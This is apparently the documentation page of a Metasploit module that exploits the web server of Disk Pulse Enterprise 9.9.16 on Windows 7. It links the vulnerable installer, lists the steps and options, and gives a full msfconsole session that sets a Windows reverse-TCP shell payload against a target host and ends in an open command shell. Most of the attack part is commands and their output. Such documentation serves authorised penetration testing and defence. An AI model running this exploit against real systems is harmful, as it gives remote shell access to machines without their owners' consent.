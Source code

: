## Vulnerable Application

  Tested on Windows 7 x64 and x86.

  Install the application from the link below and enable the web server by going to Options -> Server -> Enable Web Server on Port.

  [Disk Pulse Enterprise v 9.9.16](https://www.exploit-db.com/apps/45ce22525c87c0762f6e467db6ddfcbc-diskpulseent_setup_v9.9.16.exe)

## Verification Steps

  1. Install the application and set the option above to enable the web server
  2. Start msfconsole
  3. Do: ```use exploit/windows/http/disk_pulse_enterprise_get```
  5. Set options and payload
  6. Do: ```run```
  7. You should get a shell.

## Options

  **RHOST**

  IP address of the remote host running the server.

  **RPORT**

  Port that the web server is running on.  Default is 80 but it can be changed when setting up the program or in the options.

## Scenarios

  To obtain a shell:

  ```
msf > use exploit/windows/http/disk_pulse_enterprise_get
msf exploit(disk_pulse_enterprise_get) > set payload windows/shell_reverse_tcp
payload => windows/shell_reverse_tcp
msf exploit(disk_pulse_enterprise_get) > set RHOST x.x.x.x
RHOST => x.x.x.x
msf exploit(disk_pulse_enterprise_get) > set LHOST y.y.y.y
LHOST => y.y.y.y
msf exploit(disk_pulse_enterprise_get) > set LPORT 1234
LPORT => 1234
msf exploit(disk_pulse_enterprise_get) > set RPORT 8080
RPORT => 8080
msf exploit(disk_pulse_enterprise_get) > exploit

[*] Started reverse TCP handler on y.y.y.y:1234
[*] Generating exploit...
[*] Sending exploit...
[*] Command shell session 1 opened (y.y.y.y:1234 -> x.x.x.x:64567) at 2017-09-14 10:52:06 -0500

Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
  ```
